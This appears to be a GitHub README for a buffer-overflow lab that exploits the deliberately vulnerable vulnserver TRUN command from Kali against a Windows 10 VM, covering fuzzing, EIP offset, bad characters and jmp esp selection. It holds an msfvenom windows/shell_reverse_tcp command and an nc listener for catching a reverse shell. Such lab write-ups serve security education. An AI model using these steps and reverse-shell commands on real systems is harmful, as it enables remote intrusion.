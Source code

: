 # Buffer-Overflows-Made-Easy

## Table of Contents
1. [Lab Overview & Objectives](#lab-overview--objectives)  
2. [Environment & Prerequisites](#environment--prerequisites)  
3. [Step-by-Step Procedure](#step-by-step-procedure)  
   - [Step 0 — Network & VM Prep](#step-0---network--vm-prep)  
   - [Step 1 — Start vulnserver on Win10](#step-1---start-vulnserver-on-win10)  
   - [Step 2 — TRUN Overflow (Parts 1 & 2)](#step-2---trun-overflow-parts-1--2)  
   - [Step 3 — Fuzzing (Part 3)](#step-3---fuzzing-part-3)  
   - [Step 4 — Finding the Offset (Part 4)](#step-4---finding-the-offset-part-4)  
   - [Step 5 — Overwriting EIP (Part 5)](#step-5---overwriting-eip-part-5)  
   - [Step 6 — Finding Bad Characters (Part 6)](#step-6---finding-bad-characters-part-6)  
   - [Step 7 — Finding the Right Module (Part 7)](#step-7---finding-the-right-module-part-7)  
   - [Step 8 — Generating Shellcode & Gaining Shell (Part 8)](#step-8---generating-shellcode--gaining-shell-part-8)  

---

# Lab Overview & Objectives
This lab follows **The Cyber Mentor** series (Parts 1–8) to exploit `vulnserver` on a Windows 10 VM from a Kali attacker VM.

**Objectives**
- Trigger a TRUN buffer overflow and observe EIP/EBP overwrite.  
- Fuzz the service to find the crash location.  
- Determine the EIP offset and confirm control.  
- Identify bad characters.  
- Find a usable module/gadget.  
- Generate shellcode and obtain a reverse shell.

---

# Environment & Prerequisites
**VMs**
- Attacker: `Kali` VM (ensure VM name is visible in screenshots)  
- Target: `Win10` VM (password: `Passw0rd!`, ensure VM name is visible)

**Tools**
- VMware Workstation (or equivalent)  
- `vulnserver` (place on Win10)  
- Immunity Debugger + `mona.py` plugin (on Win10)  
- `msfvenom` / Metasploit (optional)  
- `nc` (netcat) on Kali  
- Python 2 on Kali (or run `python2` explicitly)

**Network**
- Both VMs must be on the same network (NAT/Host-only/Bridged).  
- Use your own IP addresses — do **not** reuse IPs from tutorial videos.

---

# Step-by-Step Procedure

## Step 1 — Network & VM Prep
- Start both VMs and ensure they share the same network.  
- Record IPs:
  - Kali IP: `TODO_kali_ip`  
  - Win10 IP: `TODO_win10_ip`  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step1.png)

## Step 1 — Start vulnserver on Win10 & TRUN Overflow (Parts 1 & 2)
- Run `vulnserver.exe` as Administrator on the Win10 VM.  
- Confirm service is listening
- From Kali, send a long string of `A`s to `TRUN` (e.g., `"A"*4000`).  
- Observe in Immunity that EBP and EIP are overwritten with `0x41414141`.  
- Save script: `exploit_trun_step2.py`  

![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step2.png)


## Step 3 — Fuzzing (Part 3)
- Run a fuzzing script that increases payload size until a crash occurs.  
- Save fuzz log (e.g., `fuzz_log.txt`) and screenshot Kali showing crash length.  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step3.png)
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step3p2.png)

## Step 4 — Finding the Offset (Part 4)
- Generate a cyclic pattern larger than crash size, send it, and note value in EIP.  
- Use pattern tools (mona / pattern_offset) to compute offset.  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step4.png)  

## Step 5 — Overwriting EIP (Part 5)
- Build payload: `<padding = offset>` + `BBBB` (`0x42424242`) + `<filler>` and send.  
- Verify EIP == `0x42424242`.  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step5.png)

## Step 6 — Finding Bad Characters (Part 6)
- Append badchars sequence (all bytes except `\x00`) after return address.  
- In Immunity hex dump, compare the in-memory sequence to expected.  
- Identify any bytes that are altered (bad characters).  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step6.png) 

## Step 7 — Finding the Right Module (Part 7)
- Use `mona` to find modules without ASLR/DEP and search for `jmp esp`/useful gadgets.  
- Choose module and address; set breakpoint (e.g., `essfunc`) and test.  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step7.png) 

## Step 8 — Generating Shellcode & Gaining Shell (Part 8)
- Generate shellcode excluding bad chars, example:
  msfvenom -p windows/shell_reverse_tcp LHOST=TODO_kali_ip LPORT=4444 -f c -b "\x00\x0a\x0d"
- Final payload: `<padding>` + `<JMP/RET address>` + `<NOP sled>` + `<shellcode>`  
- On Kali: `nc -lvnp 4444`  
- Trigger exploit and run `whoami`.  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step8.png)

# Reproduction Summary
1. Start Win10 & Kali VMs (same network).  
2. Run vulnserver as Admin on Win10.  
3. Fuzz `TRUN` to find crash.  
4. Use cyclic pattern to find offset where EIP is overwritten.  
5. Overwrite EIP with `0x42424242` to confirm control.  
6. Identify bad chars and choose module/gadget.  
7. Generate shellcode excluding bad chars.  
8. Start `nc -lvnp 4444` on Kali and trigger final exploit to get shell.

---

# Troubleshooting & Tips
- If Python 3 errors occur: try changing the first line of the script from “#!/usr/bin/python” to “#!/usr/bin/python2” or you can invoke your script using “python2” at the command line.
- If Immunity behaves oddly: reboot VM or reinstall.  
- If traffic blocked: disable AV/firewall temporarily.  
- Use snapshots after each successful step.

